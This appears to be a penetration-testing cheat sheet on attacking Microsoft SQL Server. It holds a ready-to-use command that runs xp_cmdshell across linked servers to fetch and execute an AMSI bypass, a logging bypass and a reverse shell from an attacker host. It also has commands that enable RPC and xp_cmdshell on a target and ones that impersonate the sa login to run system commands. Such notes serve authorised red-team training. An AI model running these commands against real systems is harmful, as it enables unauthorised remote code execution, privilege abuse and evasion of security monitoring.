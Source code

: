 ## MSSQL

Use `Invoke-SQLAudit` to find misconfigurations in SQL server

### Getting Shell on SQL Instance

- run this command from PowerUpSQL to get a reverse shell on target_machine `Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell.exe -c "iex(iwr -UseBasicParsing <ATACKER_IP>/amsibypass.txt);iex(iwr -UseBasicParsing <ATACKER_IP>/sbloggingbypass.txt);iex(iwr -UseBasicParsing <ATACKER_IP>/reverse.ps1)"''' |select -ExpandProperty CustomQuery`
    - this requires `rpcout` and `xp_cmdshell` to be enabled on the SQL machine
    - can manually enabled `rpcout` and `xp_cmdshell` on a SQL node as long as the user on which the target node is run is high-privileged (such as sa [system administrator])
- use `Get-SQLInstanceDomain | Get-SQLServerInfo` to get information for SQL instances in current forest

**Enable RPC on SQL machine**

```powershell
Invoke-SqlCmd -Query "exec sp_serveroption @server='target-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='target-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""target-sqlsrv"""
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""target-sqlsrv"""
```

### User Impersonation

May be possible to impersonate other users within an SQL instance if given the IMPERSONATE privilege and EXECUTE AS function.

- to find users you can impersonate, run `Get-SQLquery -Instance target-sqlsrv -Query "SELECT distinct [b.name](http://b.name/) FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'"`
- use SQLRecon.exe for impersonation, as they have modules meant exactly for such a scenario

**Performing Impersonation with SQLRecon**

```powershell
# Enabling advanced options
SQLRecon.exe -a Windows -s target-sqlsrv -m iquery -i sa -o "EXEC sp_configure 'show advanced options',1 RECONFIGURE"

# Enabling xp_cmdshell
SQLRecon.exe -a Windows -s target-sqlsrv -m iquery -i sa -o "EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE"

# Running whoami on target
SQLRecon.exe -a Windows -s target-sqlsrv -m iquery -i sa -o "EXEC master..xp_cmdshell 'whoami'"
```

- note that you can also use PowerView’s `Get-SQLquery -Instance target-sqlsrv -Query "EXECUTE AS LOGIN = 'sa' EXEC master..xp_cmdshell 'whoami'"`
